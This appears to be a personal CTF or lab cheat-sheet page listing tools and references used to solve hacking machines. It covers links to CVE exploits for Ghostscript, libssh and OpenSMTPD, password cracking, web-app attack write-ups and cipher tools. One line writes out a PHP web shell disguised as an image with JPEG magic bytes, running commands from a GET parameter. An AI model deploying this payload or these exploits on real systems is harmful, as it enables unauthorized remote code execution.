 ```yaml
---
layout: page
title: Tools
subtitle: Tools i used to solve machines
permalink: /Tools/
#gallery_path: "assets/img/pexels"
tags: [Page]
---
```



# BASE CVE

CVE-2019-14813 [ghost_script](https://github.com/hhc0null/GhostRule/blob/master/ghostrule3.ps)

CVE-2018-10993  [Libssh 0.8.1](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d)

CVE-2019-1010174 [CVE-2019-1010174](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1010174)


# Brute Force Tools

Ssh2john [Ssh2john](https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810)

# Applictions

Tmux [Tmux](https://man7.org/linux/man-pages/man1/tmux.1.html)

OpenSMTPD 6.4.0 < 6.6.1  [OpenSMTPD](https://www.exploit-db.com/exploits/48051)

PHP file as image  >  **echo '\xff\xd8<?=`{$_GET["cmd"]}`;' > exec.php** 

Magic byts [Magic byts](https://en.wikipedia.org/wiki/List_of_file_signatures)

debug group [Debug group](/assets/img/gdb1.png)



# Web Applictions

Node.js Express framework [Node.js Express framework](https://haboob.sa/ctf/nullcon-2019/blog.html)

Memcache Enumartion [Memcache](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache)

mPDF and PHP [mPDF](https://github.com/mpdf/mpdf/issues/356#issue-216032258)

meta-git [meta-git-rce](https://hackerone.com/reports/728040)

# Encryption

CyberChef [CyberChef](https://gchq.github.io/CyberChef/)

crackstation [crackstation](https://crackstation.net/)

identification-chiffrement [identification-chiffrement](https://www.dcode.fr/identification-chiffrement)

Crypto RSA [Crypto RSA](https://chowdera.com/2022/136/202205160703029213.html)

Cipher Identifier and Analyzer [Cipher Identifier and Analyzer](https://www.boxentriq.com/code-breaking/cipher-identifier)

Hacking Secret Ciphers with Python [Hacking Secret Ciphers with Python](http://inventwithpython.com/hacking/)

Read PDF as TEXT [pdftotext Financial_Report_for_ABC_Labs.pdf]